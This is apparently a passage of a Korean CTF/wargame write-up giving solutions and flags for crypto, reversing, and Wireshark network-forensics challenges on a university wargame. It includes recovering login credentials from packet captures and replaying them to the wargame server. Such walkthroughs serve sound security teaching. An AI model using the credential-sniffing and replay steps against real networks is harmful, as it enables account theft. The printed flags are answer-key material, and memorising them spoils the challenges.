        val=sdes_compute_function(rblock,roundkey)
        
        temp=copy.deepcopy(rblock)
        rblock=[]
        for j in range(6):
            rblock.append(val[j]^lblock[j])
        lblock=copy.deepcopy(temp)
        
    return lblock+rblock

def sdes_decrypt(key,cblock):
    lblock=cblock[0:6]
    rblock=cblock[6:12]
    i=2
    while i >= 0:
        if (i+8)%9>=7:
            roundkey=key[i%9:(i+8)%9]
        else:
            roundkey=key[i%9:9]+key[0:(i+8)%9]
        if i==8:
            roundkey=key[8:9]+key[0:7]

        val=sdes_compute_function(lblock,roundkey)

        temp=copy.deepcopy(lblock)
        lblock=[]
        for j in range(6):
            lblock.append(val[j]^rblock[j])
        rblock=copy.deepcopy(temp)
        i-=1
        
    return lblock+rblock
```

이런 코드가 주어지고 무슨 알고리즘인지 맞추라고 한다.

누가봐도 DES다.

:wink:

```
FLAG: DES
```

### 18_crypto3 (100pt)

 

```
Plain-Text : car
Encrypted Text : cpk

Plain-Text : elephant
Encrypted Text : eaxpwtni

Plain Text : cryptography
Encrypted :???

---

어떠한 암호화 방식이 사용되었는지 유추한 후 해당 평문에 대한 암호문 값을 맞추시오.
```

세글자씩 다음과 같은 패턴을 보인다.

```
[x, rot15(x), rot19(x)]
```

파이썬 코드를 짜자!

rot 함수는 [여기](https://eddmann.com/posts/implementing-rot13-and-rot-n-caesar-ciphers-in-python/)에 어ㅡ썸한 고차 함수를 찾아서 써보았다.

```python
def rot(n):
    from string import ascii_lowercase as lc, ascii_uppercase as uc
    lookup = str.maketrans(lc + uc, lc[n:] + lc[:n] + uc[n:] + uc[:n])
    return lambda s: s.translate(lookup)

def encode(s):
    for i, ch in enumerate(list(s)):
        o = ord(ch) - 97
        if i % 3 == 0:
            print(ch, end='')
        elif i % 3 == 1:
            print(rot(15)(ch), end='')
        else:
            print(rot(19)(ch), end='')

encode('cryptography')
```

```
FLAG: cgrpihggtpwr
```

...이어야 하는데 분명 알고리즘은 맞는데 인증되는 플래그는 조금 특이하다.

:unamused:

```
FLAG: vrnitdzrpihn
```

### 18_crypto4 (100pt)


뭐지 왜 암호학인데 PNG를 주지..? (스테가노그래피가 항상 포렌식으로 나왔는ㄷ...)

무튼 그냥 오픈스테고를 돌렸다.



구글 맵스에 검색했다.



센트럴 파크! 입니다

~~ㅇㄴ 왜 어째서 그림은 에펠탑인데 센트럴파크냐 고오...~~

```
FLAG: Central_Park
```

---

## Pwnable

> 공주대 워게임의 Pwnable은 Pwnable이 아닌 리버싱이다.
> Pwnable에 대해 궁금한 분들은 [pwnable.kr](http://pwnable.kr/) 같은 곳에서 연습하길 바란다.

### Pwnable1 (100pt)

.elf 파일이 주어진다. IDA로 까보자.

F5를 눌러 Pseudocode를 보면 다음과 같이 나온다.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1; // [rsp+10h] [rbp-30h]
  char v5; // [rsp+11h] [rbp-2Fh]
  char v6; // [rsp+12h] [rbp-2Eh]
  char v7; // [rsp+13h] [rbp-2Dh]
  char v8; // [rsp+14h] [rbp-2Ch]
  char v9; // [rsp+15h] [rbp-2Bh]
  char v10; // [rsp+16h] [rbp-2Ah]
  char v11; // [rsp+17h] [rbp-29h]
  char v12; // [rsp+18h] [rbp-28h]
  char v13; // [rsp+19h] [rbp-27h]
  char v14; // [rsp+1Ah] [rbp-26h]
  char v15; // [rsp+1Bh] [rbp-25h]
  char v16; // [rsp+1Ch] [rbp-24h]
  char s2; // [rsp+20h] [rbp-20h]
  unsigned __int64 v18; // [rsp+38h] [rbp-8h]

  v18 = __readfsqword(0x28u);
  s1 = 109;
  v5 = 121;
  v6 = 33;
  v7 = 110;
  v8 = 97;
  v9 = 101;
  v10 = 102;
  v11 = 97;
  v12 = 107;
  v13 = 101;
  v14 = 33;
  v15 = 33;
  v16 = 0;
  printf("Input Password: ", argv, envp, argv);
  __isoc99_scanf("%s", &s2);
  if ( strcmp(&s1, &s2) )
  {
    puts("Wrong!");
    exit(0);
  }
  return puts("Correct!");
}
```

그냥 입력받은거랑 저 아스키 코드가 담긴 Array랑 strcmp 하는 거다.

저 아스키 코드를 string으로 바꾸면 다음과 같이 나온다.

```python
>>> ''.join(map(chr, [109, 121, 33, 110, 97, 101, 102, 97, 107, 101, 33, 33]))
my!naefake!!
```

```
FLAG: my!naefake!!
```

### Pwnable2 (200pt)


386 ELF 파일이 주어진다. IDA로 까보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int i; // [esp+10h] [ebp-78h]
  signed int v5; // [esp+18h] [ebp-70h]
  int v6; // [esp+1Ch] [ebp-6Ch]
  int v7; // [esp+20h] [ebp-68h]
  int v8; // [esp+24h] [ebp-64h]
  int v9; // [esp+28h] [ebp-60h]
  int v10; // [esp+2Ch] [ebp-5Ch]
  int v11; // [esp+30h] [ebp-58h]
  int v12; // [esp+34h] [ebp-54h]
  int v13; // [esp+38h] [ebp-50h]
  int v14; // [esp+3Ch] [ebp-4Ch]
  int v15; // [esp+40h] [ebp-48h]
  int v16; // [esp+44h] [ebp-44h]
  int v17; // [esp+48h] [ebp-40h]
  int v18; // [esp+4Ch] [ebp-3Ch]
  int v19; // [esp+50h] [ebp-38h]
  int v20; // [esp+54h] [ebp-34h]
  int v21; // [esp+58h] [ebp-30h]
  int v22; // [esp+5Ch] [ebp-2Ch]
  int v23; // [esp+60h] [ebp-28h]
  int v24; // [esp+64h] [ebp-24h]
  int v25; // [esp+68h] [ebp-20h]
  int v26; // [esp+6Ch] [ebp-1Ch]
  int v27; // [esp+70h] [ebp-18h]
  int v28; // [esp+74h] [ebp-14h]
  int v29; // [esp+78h] [ebp-10h]

  puts("Start!");
  memset(&v5, 0, 0x68u);
  v5 = 102;
  v6 = 109;
  v7 = 99;
  v8 = 100;
  v9 = 91;
  v10 = 108;
  v11 = 117;
  v12 = 88;
  v13 = 91;
  v14 = 56;
  v15 = 57;
  v16 = 56;
  v17 = 124;
  v18 = 60;
  v19 = 96;
  v20 = 104;
  v21 = 79;
  v22 = 55;
  v23 = 52;
  v24 = 76;
  v25 = 37;
  v26 = 68;
  v27 = 72;
  v28 = 70;
  v29 = 71;
  for ( i = 0; i <= 25; ++i )
  {
    sleep(0x67Du);
    printf("%c\n", i ^ *(&v5 + i));
  }
  putchar(10);
  print_flag();
  return 0;
}
```

`print_flag` 함수는 페이크 함수이니 무시해도 된다.

쉽게 0~25랑 저 Array랑 XOR 한걸 출력하는 것 같다. 파이썬으로 짜보자.

```python
>>> arr = [102,109,99,100,91,108,117,88,91,56,57,56,124,60,96,104,79,55,52,76,37,68,72,70,71]
>>> for i in range(len(arr)):
...     print(chr(arr[i] ^ i), end='')
...
flag_is_S133p1ng_&&_1Q^Q_
```

```
FLAG: S133p1ng_&&_1Q^Q_
```

인 것 같지만 진짜 플래그는 다음과 같다. (3스택 ㅂㄷ)

```
FLAG: S133p1ng_&&_X0R_^^
```

---

## Network
### Login (200pt)

pcapng 패킷 캡처 파일이 주어진다! 한번 Wireshark로 열어보자.

필터로 `http`를 입력해보자. HTTP 관련 패킷만 필터링 해준다.



좀 많아 보인다. 그러면 로그인은 대부분 POST로 처리되니까 필터로 `http.request.method==POST` 이걸 입력해보자.



세 패킷 중 가장 끝에 있는 녀석을 사용해서 python requests 모듈로 POST를 보내보겠다.

```python
>>> import requests
>>> res = requests.post('http://wargame_sec.kongju.ac.kr/network/login/login.php', data={'id': 'N3tw0rk1_Adm1n', 'pw': 'Network_Honey_Jam'})
>>> res.text
"<script>alert('Congraturation!');</script><script>alert('Flag is Sh4rk_1s_Op3n_the_Pc4p~');</script><script>history.back();</script>"
```

```
FLAG: Sh4rk_1s_Op3n_the_Pc4p~
```

### network1_Project3 (200pt)


```
패킷에서 사용되고 있는 HTTP의 포트 번호는?
Download
```

솔직히 HTTP 포트 번호 모르는 사람 없잖아요..?

패킷 다운로드 하지 않아도 됩니다.

```
FLAG: 80
```

### network2_Project3 (200pt)


```
www.daum.net에 서비스를 요청하고 있는 클라이언트의 IP주소는?
```

늘 하던대로 와이어 샤크를 켜보자.

그리고 늘 하던대로 필터에 `http`를 넣자.



Source에 있는 IP가 플래그인것 같다.

```
FLAG: 192.168.0.21
```

### network3_Project3 (200pt)


```
A 회사의 실적은 날이 갈수록 떨어지고 있었다.
그러던 와중 회사에서 철수가 일을 안하고 놀고 있다는 소문이 있어
철수가 무엇을 하는지 확인하기 위해 패킷을 캡처하였다.
철수가 회사 업무시간에 검색하고 있는 내용이 무엇인가?
```

늘 하던대로 필터에 `http`를 넣으면 좀 많은게 나오는데, 대충 봐도 endpoint가 `/search`로 끝나는 녀석이 보여서 그걸 보았더니 다음과 같이 나왔다.



`girlsday`를 검색한 것으로 보인다.

```
FLAG: girlsday
```

### network4_Project3 (200pt)


```
지현이는 회사의 기밀 문서 빼돌려 다운받은 혐의를 받고 있다.
다운받은 비밀문서를 추출하여 지현이의 범죄 사실을 입증하라.
```

파일을 추출 해야한다고 되어 있다. 다행히도 와이어샤크에는 HTTP 패킷에서 파일을 추출하는 기능을 가지고 있다.





Save를 누르면 확장자가 없는 파일이 나온다.

DIE로 돌려보니 다음과 같다.



압축을 해제했더니 PPT 파일이 주어졌다.



```
FLAG: eagle74
```

### network5_Project3 (200pt)


```
해커 A는 공개된 와이파이의 DNS를 변조하여 사용자들의 데이터를 가로챌
목적으로 관리자 페이지에 접속했으나 관리자 페이지에 비밀번호가 걸려있었다.
하지만 패킷을 스니핑 하던 도중 관리자 페이지로 들어가는 관리자의 아이디를 보게 되는데...
관리자의 암호를 찾아내라!!
```

되게 말을 빙빙꼬아서 말했는데, 결국 중요한건 관리자의 암호를 찾으라는거다.

로그인이니까 대충 http method 중 POST라고 추측을 해서 필터를 `http.request.method==POST` 이렇게 넣어줬다.

다음과 같이 필터를 주게 되면 POST 메서드에 해당하는 패킷만 표시하게 해준다.

그러면 다음과 같이 하나의 패킷이 표시되는걸 알 수 있다.



그 패킷의 Form Data를 보면 비밀번호가 나오는걸 알 수 있다!

```
FLAG: q1w2e3r4!
```

### 18_network1 (50pt)


```
웹 서필을 하던 중 마음에 드는 귀걸이 이미지를 저장하였다. 해당 귀걸이를 끼고 있는 주인은 누구인가?(답은 영문으로 작성하세요.)

+) readme.txt
요새 귀걸이에 관심이 많은 세선이는 인터넷 서핑을 하던 중 자신에게 꼭 어울릴법한 귀걸이를 찾게 되었다. 그리고 그 사진을 자신의 컴퓨터에 저장했다.
key는 영문으로 입력해주세요
ex) 공주대 --> rhdwneo
```

[이전 문제](#network4_project3-200pt)와 마찬가지로 `File > Export Objects > HTTP`를 하게 되면 다음과 같은 파일들이 나오게 된다.



그중 이미지(image/jpeg)인 파일을 다운받아 확인해보면 다음의 사진이 나오게 된다.


위에 한글을 영어로 그대로 쓰라고 했으니 플래그는 다음과 같다.

```
FLAG: rladusdk
```

### 18_network2 (100pt)


```
ARP 스푸핑에 의해 ID와 PW가 유출되었다. 이 때 공격자의 MAC값과 피해자의 PW 값은?
```

먼저 압축파일인데 암호가 결려있다. 암호는 `syscore`인데 암호에 관련된 내용이 없다?

아무튼 파일을 열어보자.



그럼 겁나 많은 ARP를 혼자 보내는게 보인다.

Sender MAC address를 보니 공격자의 맥 주소는 `00:0c:29:f3:21:ad`인걸로 보인다.

그리고 비밀번호를 알아야 하니 로그인은 주로 POST Method로 이루어지니 `http.request.method==POST` 필터를 쓰면 `login.php`로 요청하는 패킷이 나온다.



비밀번호는 `YONG_GAL`인것 같다.

하지만 설명에는 플래그로 어떻게 두 값을 입력해야 하는지 나오지 않는다.

두 문자열을 _(언더바)로 붙이면 되더라.

```
FLAG: 00:0c:29:f3:21:ad_YONG_GAL
```

### 18_network3 (150pt)


```
해당 패킷을 분석하여 신 캐릭터를 알아내시오.
```

FTP 패킷들을 쭉 읽다보면 `site.zip` 파일을 요청하는 것을 볼 수 있다.

그 뒤로 ftp-data 패킷들이 여러개 있는데 size.zip 파일을 추출하는 방법은 여러가지 방법이 있다.

처음에는 와이어샤크에 무슨 기능이 있는지 몰라서 밑에 Hex Viewer에 Content에 해당하는 부분을 긁어서 붙히는 노가다 작업을 한 기억이 있다.

하지만 와이어샤크에는 `Follow TCP Stream`이라는 매력적인 기능이 있다.



첫번째 ftp-data 패킷을 선택한 뒤 `Analyze > Follow > TCP Stream`을 클릭한다.



그 다음 `Show and save data as`를 `Raw`로 고쳐서 바이너리로 받게 한다.

마지막으로, `Save as`를 눌러서 zip파일로 저장한 뒤 열면 되게 많은 텍스트 파일들이 있다.

그중 가장 크기가 큰 `kjeaefsyef.txt`라는 파일을 열면 일반 텍스트가 아닌 것 같아 보인다.

가장 처음 보이는 글자가 JFIF인걸 보니 JPG 파일이라고 추측할 수 있다.

하지만, 열게 되면 제대로 열지 못하는 걸 볼 수가 있다. 헥스 에디터로 열어보자.



JPG 파일은 처음 3바이트가 `FF D8 FF` 이어야 하지만 `00 00 00`으로 바뀐걸 볼 수 있다.

이걸 원래대로 바꿔주게 되면 정상적으로 복구가 되어서 나온다.



```
FLAG: Do_you_know_velkoz?
```

### 18_network4 (200pt)


```
해당 패킷을 분석하여 내가 가야 할 장소를 알아내시오.
```

파일을 열면 많은 패킷이 담겨져 있다.

필터를 `http`로 하고 계속 살펴보면 30341번 패킷에 POST로 메일을 업로드를 하는 패킷이 있을거다.

그걸 TCP Follow(Ctrl+Alt+Shift+T)하면 다음과 같이 나온다.



이걸 Show and save data as를 Raw로 바꿔서 저장한뒤 헥스 에디터로 열어준다.



그다음 JPG 시그니처(헤더: `FF D8 FF`, 푸터: `FF D9`)에 맞추어서 파일 앞뒤를 짤라주면 정상적으로 복구되어 다음과 같은 QR 코드가 나온다.


QR코드를 찍으면 [여기](https://m.site.naver.com/qrcode/view.nhn?v=08D0q)로 가게 되는데, 장소가 마이첼시라서 플래그는 `mychelsea`다. (역시 공주대 문제들은 슈퍼게싱)

```
FLAG: mychelsea
```

---

## Reversing
### Reversing1 (100pt)

IDA에서 Hex-rays Decompiler(F5누르면 C-like한 pseudocode로 바꿔줌)를 애용해봅시다.



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+14h] [ebp-Ch]
  int i; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  __main();
  v6 = 0;
  v4 = 0;
  for ( i = 1; i <= 10; ++i )
    v6 += i;
  printf("::  Input the Key  :  ");
  scanf("%d", &v4);
  if ( v4 == v6 )
    puts("=====  wow!  =====");
  else
    puts("=====  nop!  =====");
  return system("pause > nul");
}
```

정수를 입력받고 1~10의 합을 비교한다.



```
FLAG: 55
```

### Reversing2 (150pt)

이것도 IDA로 돌려보면 다음과 같이 나온다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+1Fh] [ebp-A9h]
  char v6; // [esp+23h] [ebp-A5h]
  char v7; // [esp+24h] [ebp-A4h]
  char v8; // [esp+25h] [ebp-A3h]
  char v9; // [esp+26h] [ebp-A2h]
  char v10; // [esp+27h] [ebp-A1h]
  char v11; // [esp+28h] [ebp-A0h]
  char v12; // [esp+29h] [ebp-9Fh]
  char v13; // [esp+2Ah] [ebp-9Eh]
  char v14; // [esp+2Bh] [ebp-9Dh]
  char v15; // [esp+2Ch] [ebp-9Ch]
  char v16; // [esp+2Dh] [ebp-9Bh]
  char v17; // [esp+2Eh] [ebp-9Ah]
  char v18; // [esp+2Fh] [ebp-99h]
  char v19; // [esp+30h] [ebp-98h]
  char v20; // [esp+31h] [ebp-97h]
  int v21; // [esp+7Fh] [ebp-49h]
  int v22; // [esp+83h] [ebp-45h]
  char v23; // [esp+87h] [ebp-41h]
  int v24; // [esp+94h] [ebp-34h]
  int v25; // [esp+98h] [ebp-30h]
  int v26; // [esp+9Ch] [ebp-2Ch]
  int v27; // [esp+A0h] [ebp-28h]
  int *v28; // [esp+A4h] [ebp-24h]
  int *v29; // [esp+A8h] [ebp-20h]
  int *v30; // [esp+ACh] [ebp-1Ch]
  char v31; // [esp+B3h] [ebp-15h]
  unsigned int v32; // [esp+B4h] [ebp-14h]
  unsigned int i; // [esp+B8h] [ebp-10h]
  int v34; // [esp+BCh] [ebp-Ch]

  __main();
  v22 = 0;
  v24 = 0;
  v3 = 0;
  do
  {
    *(_DWORD *)(((unsigned int)&v23 & 0xFFFFFFFC) + v3) = 0;
    v3 += 4;
  }
  while ( v3 < ((unsigned int)((char *)&v22 - ((unsigned int)&v23 & 0xFFFFFFFC) + 21) & 0xFFFFFFFC) );
  v5 = 0;
  v21 = 0;
  memset(
    (void *)((unsigned int)&v6 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&v5 - ((unsigned int)&v6 & 0xFFFFFFFC) + 100) & 0xFFFFFFFC) >> 2));
  v34 = 0;
  v32 = 0;
  v31 = 97;
  for ( i = 0; i <= 0x13; ++i )
    *((_BYTE *)&v22 + i) = v31++;
  for ( i = 0; i <= 0x3A; ++i )
  {
    v30 = &v22;
    v29 = &v22;
    v28 = &v22;
    v32 = 0;
    while ( v32 <= 3 )
    {
      v27 = *v30;
      *v30 = v30[1];
      v30[1] = v27;
      ++v32;
      ++v30;
    }
    v32 = 0;
    while ( v32 <= 8 )
    {
      v26 = *(signed __int16 *)v29;
      *(_WORD *)v29 = *((_WORD *)v29 + 1);
      *((_WORD *)v29 + 1) = v26;
      ++v32;
      v29 = (int *)((char *)v29 + 2);
    }
    v32 = 0;
    while ( v32 <= 0x12 )
    {
      v25 = *(char *)v28;
      *(_BYTE *)v28 = *((_BYTE *)v28 + 1);
      *((_BYTE *)v28 + 1) = v25;
      ++v32;
      v28 = (int *)((char *)v28 + 1);
    }
  }
  printf("::input the key  :  ");
  scanf("%s", &v5);
  if ( strlen((const char *)&v5) == 19 )
  {
    if ( (_BYTE)v5 == 99 )
      ++v34;
    if ( BYTE1(v5) == 111 )
      ++v34;
    if ( BYTE2(v5) == 109 )
      ++v34;
    if ( HIBYTE(v5) == 109 )
      ++v34;
    if ( v6 == 97 )
      ++v34;
    if ( v7 == 110 )
      ++v34;
    if ( v8 == 100 )
      ++v34;
    if ( v9 == 58 )
      ++v34;
    if ( v10 == 99 )
      ++v34;
    if ( v11 == 114 )
      ++v34;
    if ( v12 == 101 )
      ++v34;
    if ( v13 == 97 )
      ++v34;
    if ( v14 == 116 )
      ++v34;
    if ( v15 == 101 )
      ++v34;
    if ( v16 == 95 )
      ++v34;
    if ( v17 == 102 )
      ++v34;
    if ( v18 == 108 )
      ++v34;
    if ( v19 == 97 )
      ++v34;
    if ( v20 == 103 )
      ++v34;
  }
  if ( v34 == 19 )
    printf("::  flag  -  %s\n", &v22);
  else
    puts("::  nop");
  system("pause > nul");
  return 0;
}
```

다른 부분은 모르겠고, 저 `if ( strlen((const char *)&v5) == 19 )` 이 부분부터 중요해보인다.

저 밑에있는 아스키 코드 같은 걸 문자열로 바꿔보자.

```python
>>> arr = [99, 111, 109, 109, 97, 110, 100, 58, 99, 114, 101, 97, 116, 101, 95, 102, 108, 97, 103]
>>> ''.join(map(chr, arr))
'command:create_flag'
```

그럼 한번 저걸 콘솔에 입력해보자.



```F
FLAG: nopqrstabcdefghijklm
```

### number (200pt)
### endecoded (150pt)
### rrrr (300pt)
### reversing1_Project3 (200pt)
### reversing2_Project3 (200pt)
### reversing3_Project3 (200pt)
### reversing4_Project3 (200pt)
### reversing5_Project3 (200pt)
### reversing6_Project3 (200pt)
### 18_reversing1 (150pt)


### 18_reversing2 (100pt)


### 18_reversing3 (100pt)


### 18_reversing4 (200pt)


---

## Misc
### Forest (10pt)
### See (10pt)
